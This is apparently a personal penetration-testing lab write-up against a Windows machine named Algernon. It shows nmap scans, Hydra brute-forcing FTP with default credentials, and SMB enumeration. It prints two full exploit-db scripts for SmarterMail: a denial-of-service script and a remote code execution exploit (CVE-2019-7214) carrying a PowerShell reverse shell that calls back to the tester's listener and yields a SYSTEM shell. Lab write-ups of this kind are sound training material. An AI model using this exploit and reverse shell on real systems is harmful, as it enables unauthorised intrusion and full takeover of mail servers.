


nmap:
```sh
nmap 192.168.127.65                                                    
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 09:34 +0100
Nmap scan report for 192.168.127.65
Host is up (0.022s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
9998/tcp open  distinct32

Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds
```

Hydra ftp:
```sh
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.127.65 -V
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-23 09:36:38
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.127.65:21/
[ATTEMPT] target 192.168.127.65 - login "anonymous" - pass "anonymous" - 1 of 66 [child 0] (0/0)
[ATTEMPT] target 192.168.127.65 - login "root" - pass "rootpasswd" - 2 of 66 [child 1] (0/0)
[ATTEMPT] target 192.168.127.65 - login "root" - pass "12hrs37" - 3 of 66 [child 2] (0/0)
[ATTEMPT] target 192.168.127.65 - login "ftp" - pass "b1uRR3" - 4 of 66 [child 3] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "admin" - 5 of 66 [child 4] (0/0)
[ATTEMPT] target 192.168.127.65 - login "localadmin" - pass "localadmin" - 6 of 66 [child 5] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "1234" - 7 of 66 [child 6] (0/0)
[ATTEMPT] target 192.168.127.65 - login "apc" - pass "apc" - 8 of 66 [child 7] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "nas" - 9 of 66 [child 8] (0/0)
[ATTEMPT] target 192.168.127.65 - login "Root" - pass "wago" - 10 of 66 [child 9] (0/0)
[ATTEMPT] target 192.168.127.65 - login "Admin" - pass "wago" - 11 of 66 [child 10] (0/0)
[ATTEMPT] target 192.168.127.65 - login "User" - pass "user" - 12 of 66 [child 11] (0/0)
[ATTEMPT] target 192.168.127.65 - login "Guest" - pass "guest" - 13 of 66 [child 12] (0/0)
[ATTEMPT] target 192.168.127.65 - login "ftp" - pass "ftp" - 14 of 66 [child 13] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "password" - 15 of 66 [child 14] (0/0)
[ATTEMPT] target 192.168.127.65 - login "a" - pass "avery" - 16 of 66 [child 15] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "123456" - 17 of 66 [child 2] (0/0)
[ATTEMPT] target 192.168.127.65 - login "adtec" - pass "none" - 18 of 66 [child 5] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "admin12345" - 19 of 66 [child 11] (0/0)
[ATTEMPT] target 192.168.127.65 - login "none" - pass "dpstelecom" - 20 of 66 [child 14] (0/0)
[21][ftp] host: 192.168.127.65   login: anonymous   password: anonymous
[ATTEMPT] target 192.168.127.65 - login "instrument" - pass "instrument" - 21 of 66 [child 1] (0/0)
[21][ftp] host: 192.168.127.65   login: ftp   password: b1uRR3
[ATTEMPT] target 192.168.127.65 - login "user" - pass "password" - 22 of 66 [child 4] (0/0)
[ATTEMPT] target 192.168.127.65 - login "root" - pass "password" - 23 of 66 [child 6] (0/0)
[ATTEMPT] target 192.168.127.65 - login "default" - pass "default" - 24 of 66 [child 7] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "default" - 25 of 66 [child 8] (0/0)
[ATTEMPT] target 192.168.127.65 - login "nmt" - pass "1234" - 26 of 66 [child 9] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "Janitza" - 27 of 66 [child 10] (0/0)
[ATTEMPT] target 192.168.127.65 - login "supervisor" - pass "supervisor" - 28 of 66 [child 12] (0/0)
[ATTEMPT] target 192.168.127.65 - login "user1" - pass "pass1" - 29 of 66 [child 15] (0/0)
[ATTEMPT] target 192.168.127.65 - login "avery" - pass "avery" - 30 of 66 [child 0] (0/0)
[ATTEMPT] target 192.168.127.65 - login "IEIeMerge" - pass "eMerge" - 31 of 66 [child 3] (0/0)
[21][ftp] host: 192.168.127.65   login: ftp   password: ftp
[ATTEMPT] target 192.168.127.65 - login "ADMIN" - pass "12345" - 32 of 66 [child 13] (0/0)
[ATTEMPT] target 192.168.127.65 - login "beijer" - pass "beijer" - 33 of 66 [child 2] (0/0)
[ATTEMPT] target 192.168.127.65 - login "Admin" - pass "admin" - 34 of 66 [child 5] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "1234" - 35 of 66 [child 11] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "1111" - 36 of 66 [child 14] (0/0)
[ATTEMPT] target 192.168.127.65 - login "root" - pass "admin" - 37 of 66 [child 1] (0/0)
[ATTEMPT] target 192.168.127.65 - login "se" - pass "1234" - 38 of 66 [child 4] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "stingray" - 39 of 66 [child 6] (0/0)
[ATTEMPT] target 192.168.127.65 - login "device" - pass "apc" - 40 of 66 [child 7] (0/0)
[ATTEMPT] target 192.168.127.65 - login "apc" - pass "apc" - 41 of 66 [child 8] (0/0)
[ATTEMPT] target 192.168.127.65 - login "dm" - pass "ftp" - 42 of 66 [child 9] (0/0)
[ATTEMPT] target 192.168.127.65 - login "dmftp" - pass "ftp" - 43 of 66 [child 10] (0/0)
[ATTEMPT] target 192.168.127.65 - login "httpadmin" - pass "fhttpadmin" - 44 of 66 [child 12] (0/0)
[ATTEMPT] target 192.168.127.65 - login "user" - pass "system" - 45 of 66 [child 15] (0/0)
[ATTEMPT] target 192.168.127.65 - login "MELSEC" - pass "MELSEC" - 46 of 66 [child 2] (0/0)
[ATTEMPT] target 192.168.127.65 - login "QNUDECPU" - pass "QNUDECPU" - 47 of 66 [child 5] (0/0)
[ATTEMPT] target 192.168.127.65 - login "ftp_boot" - pass "ftp_boot" - 48 of 66 [child 11] (0/0)
[ATTEMPT] target 192.168.127.65 - login "uploader" - pass "ZYPCOM" - 49 of 66 [child 1] (0/0)
[ATTEMPT] target 192.168.127.65 - login "ftpuser" - pass "password" - 50 of 66 [child 4] (0/0)
[ATTEMPT] target 192.168.127.65 - login "USER" - pass "USER" - 51 of 66 [child 6] (0/0)
[ATTEMPT] target 192.168.127.65 - login "qbf77101" - pass "hexakisoctahedron" - 52 of 66 [child 7] (0/0)
[ATTEMPT] target 192.168.127.65 - login "ntpupdate" - pass "ntpupdate" - 53 of 66 [child 8] (0/0)
[ATTEMPT] target 192.168.127.65 - login "sysdiag" - pass "factorycast@schneider" - 54 of 66 [child 9] (0/0)
[ATTEMPT] target 192.168.127.65 - login "wsupgrade" - pass "wsupgrade" - 55 of 66 [child 10] (0/0)
[ATTEMPT] target 192.168.127.65 - login "pcfactory" - pass "pcfactory" - 56 of 66 [child 12] (0/0)
[ATTEMPT] target 192.168.127.65 - login "loader" - pass "fwdownload" - 57 of 66 [child 14] (0/0)
[ATTEMPT] target 192.168.127.65 - login "test" - pass "testingpw" - 58 of 66 [child 15] (0/0)
[ATTEMPT] target 192.168.127.65 - login "webserver" - pass "webpages" - 59 of 66 [child 0] (0/0)
[ATTEMPT] target 192.168.127.65 - login "fdrusers" - pass "sresurdf" - 60 of 66 [child 3] (0/0)
[ATTEMPT] target 192.168.127.65 - login "nic2212" - pass "poiuypoiuy" - 61 of 66 [child 13] (0/0)
[ATTEMPT] target 192.168.127.65 - login "user" - pass "user00" - 62 of 66 [child 2] (0/0)
[ATTEMPT] target 192.168.127.65 - login "su" - pass "ko2003wa" - 63 of 66 [child 5] (0/0)
[ATTEMPT] target 192.168.127.65 - login "MayGion" - pass "maygion.com" - 64 of 66 [child 1] (0/0)
[ATTEMPT] target 192.168.127.65 - login "admin" - pass "9999" - 65 of 66 [child 4] (0/0)
[ATTEMPT] target 192.168.127.65 - login "PlcmSpIp" - pass "PlcmSpIp" - 66 of 66 [child 6] (0/0)
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-23 09:36:40
```

Found files on FTP:
```sh
~/offsec/Algernon % ls
ImapRetrieval  Logs  PopRetrieval  Spool
```

Quick google on exploit port 9998, found exploit:
https://www.exploit-db.com/exploits/31607

```sh
cat exploit.py 
source: https://www.securityfocus.com/bid/28610/info

SmarterTools SmarterMail is prone to a denial-of-service vulnerability when handling specially crafted HTTP GET, HEAD, PUT, POST, and TRACE requests. When the server eventually resets the request connection, it will crash.

Remote attackers can exploit this issue to deny service to legitimate users.

SmarterMail 5.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/python
##########################################################################
#
# SmarterMail Web Server 5.0 DoS exploit
# Tested on version 5.0.2999, OS: Windows XPSP2 English
# Tested with GET,HEAD,PUT,POST,TRACE
#
# Bug discovered by Matteo Memelli aka ryujin
# http://www.gray-world.net http://www.be4mind.com
#
##########################################################################
#
# bt ~ # ./smartermail_dos.py -H 192.168.1.245 -P 9998
# [+] Connecting to 192.168.1.245 on port 9998
# [+] Starting DoS attack, it can take some minutes...
# [+] Evil buf sent!
# [+] Now we must wait for a connection reset to crash the server...
# [+] Server Di3d:  Connection reset by peer
# [+] The attack took 113 secs
#
##########################################################################

from socket import *
from optparse import OptionParser
import sys, time

usage =  "%prog -H TARGET_HOST -P TARGET_PORT [-c COMMAND]"
parser = OptionParser(usage=usage)
parser.add_option("-H", "--target_host", type="string",
                  action="store", dest="HOST",
                  help="Target Host")
parser.add_option("-P", "--target_port", type="int",
                  action="store", dest="PORT",
                  help="Target Port")
(options, args) = parser.parse_args()
HOST    = options.HOST
PORT    = options.PORT
if not (HOST and PORT):
   parser.print_help()
   sys.exit()

payload = 'A'*8784
print "[+] Connecting to %s on port %d" % (HOST, PORT)
print "[+] Starting DoS attack, it can take some minutes..."
timestart = time.time()
s = socket(AF_INET, SOCK_STREAM)
s.connect((HOST, PORT))
s.send('TRACE ' + payload+"\r\n\r\n")
print "[+] Evil buf sent!"
print "[+] Now we must wait for a connection reset to crash the 
server..."

# IF WE DONT WAIT FOR A CONNECTION RESET THE SERVER WONT CRASH
try:
   data=s.recv(1024)
except error,e:
   print "[+] Server Di3d: ", e[1]
   print "[+] The attack took %d secs" % int(time.time() - timestart)
else:
   print "[-] Attack was not successful!" 
   s.close()    
```

Exploit fails?:
```sh
python exploit.py -H 192.168.127.65 -P 9998 
[+] Connecting to 192.168.127.65 on port 9998
[+] Starting DoS attack, it can take some minutes...
[+] Evil buf sent!
[+] Now we must wait for a connection reset to crash the server...
[-] Attack was not successful!
```

Port 80 reveals standard ISS page:


Crackmap doesn't reveal anything nice:
```sh
[2026-01-23 09:51:58] kali@kali ~/offsec/Algernon % crackmapexec smb 192.168.127.65 --users 
SMB         192.168.127.65  445    ALGERNON         [*] Windows 10 / Server 2019 Build 18362 x64 (name:ALGERNON) (domain:algernon) (signing:False) (SMBv1:False)
SMB         192.168.127.65  445    ALGERNON         [-] Error enumerating domain users using dc ip 192.168.127.65: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
SMB         192.168.127.65  445    ALGERNON         [*] Trying with SAMRPC protocol
                                                                                                                                                                                                                                                           
[2026-01-23 09:55:21] kali@kali ~/offsec/Algernon % crackmapexec smb 192.168.127.65 -u "" -p "" --users
SMB         192.168.127.65  445    ALGERNON         [*] Windows 10 / Server 2019 Build 18362 x64 (name:ALGERNON) (domain:algernon) (signing:False) (SMBv1:False)
SMB         192.168.127.65  445    ALGERNON         [-] algernon\: STATUS_ACCESS_DENIED 
SMB         192.168.127.65  445    ALGERNON         [-] Error enumerating domain users using dc ip 192.168.127.65: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
SMB         192.168.127.65  445    ALGERNON         [*] Trying with SAMRPC protocol
                                                                                                                                                                                                                                                           
[2026-01-23 09:55:39] kali@kali ~/offsec/Algernon % crackmapexec smb 192.168.127.65 -u "guest" -p "" --users
SMB         192.168.127.65  445    ALGERNON         [*] Windows 10 / Server 2019 Build 18362 x64 (name:ALGERNON) (domain:algernon) (signing:False) (SMBv1:False)
SMB         192.168.127.65  445    ALGERNON         [-] algernon\guest: STATUS_ACCOUNT_DISABLED
```

Nmap with versions and simple scripts:
```sh
nmap 192.168.127.65 -n -sCV                                                                                               
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-23 09:56 +0100
Nmap scan report for 192.168.127.65
Host is up (0.022s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  09:31PM       <DIR>          ImapRetrieval
| 01-23-26  12:33AM       <DIR>          Logs
| 04-29-20  09:31PM       <DIR>          PopRetrieval
|_04-29-20  09:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Fri, 23 Jan 2026 08:57:08 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-server-header: Microsoft-IIS/10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-01-23T08:57:03
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.25 seconds
```

Port 9998 is SmarterMail root interface?:


Found an other exploit:
https://www.exploit-db.com/exploits/49216

Changed host, lhost and port, ran nc on port 443
```
cat 49216.py      
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
#
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3

import base64
import socket
import sys
from struct import pack

HOST='192.168.127.65'
PORT=17001
LHOST='192.168.45.190'
LPORT=443

psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')

payload = 'AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAPIKL2MgcG93ZXJzaGVsbC5leGUgLWVuY29kZWRDb21tYW5kIFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFgGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw=='
payload = base64.b64decode(payload)
payload = payload.replace(bytes("X"*1360, 'utf-8'), psh_shell)

uri = bytes('tcp://{}:{}/Servers'.format(HOST, str(PORT)), 'utf-8')

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT))

msg = bytes()
msg += b'.NET'                 # Header
msg += b'\x01'                 # Version Major
msg += b'\x00'                 # Version Minor
msg += b'\x00\x00'             # Operation Type
msg += b'\x00\x00'             # Content Distribution
msg += pack('I', len(payload)) # Data Length
msg += b'\x04\x00'             # URI Header
msg += b'\x01'                 # Data Type
msg += b'\x01'                 # Encoding - UTF8
msg += pack('I', len(uri))     # URI Length
msg += uri                     # URI
msg += b'\x00\x00'             # Terminating Header
msg += payload                 # Data

s.send(msg)
s.close() 
```

Ran exploit and got shell, we're nt authority\system straight away:
```sh
python3 49216.py

rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.127.65 49991

whoami
nt authority\system
